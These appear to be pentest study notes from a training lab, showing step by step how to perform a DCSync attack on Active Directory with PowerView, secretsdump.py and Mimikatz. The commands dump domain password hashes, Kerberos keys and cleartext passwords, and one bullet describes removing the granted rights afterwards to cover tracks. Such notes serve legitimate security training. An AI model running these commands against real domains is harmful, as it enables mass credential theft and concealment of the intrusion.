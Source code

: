 Technique for stealing Active Directory password database by using the built-in Directory Replication Service Remote Protocol.
Extended right needed: DS-Replication-Get-Changes-All

**Tools:
- Mimikatz
- Invoke-DCSync
- secretsdump.py (decrypts any passwords stored using reversible encryption)

**Using Get-DomainUser to View adunn's Group Membership
```
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**Using Get-ObjectAcl to Check adunn's Replication Rights
```
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
- If we have WriteDacl rights over the user, then we can add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

**Extacting NTLM Hashes and Kerberos Keys Using secretsdump.py
```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
- '-just-dc' tells tool to extract NTLM hashes and Kerberos keys from the NTDS file.
- '-just-dc-ntlm' will only extract NTLM hashes
- '-just-dc-user <username> only extracts data from a specific user
- '-pwd-last-set'
- '-history' to dump password history (domain password strength metrics)
- '-user-status' to check if user is disabled. We can filter out disabled users to provide client with password cracking statistics like % of passwords cracked, top 10 passwords, password length metrics, password re-use.

**Listing Hashes, Kerberos Keys, and Cleartext Passwords
```
ls inlanefreight_hashes*
```
- Cleartext passwords can be seen due to 'store password using reversible encryption' account option set.

**Enumerating Further using Get-ADUser
```
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
- Reversible encryption enabled

**Checking for Reversible Encryption Option using Get-DomainUser
```
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

**Displaying the Decrypted Password
```
cat inlanefreight_hashes.ntds.cleartext
```

## Mimikatz

**Using runas.exe
```
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

**Performing the Attack with Mimikatz
```
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
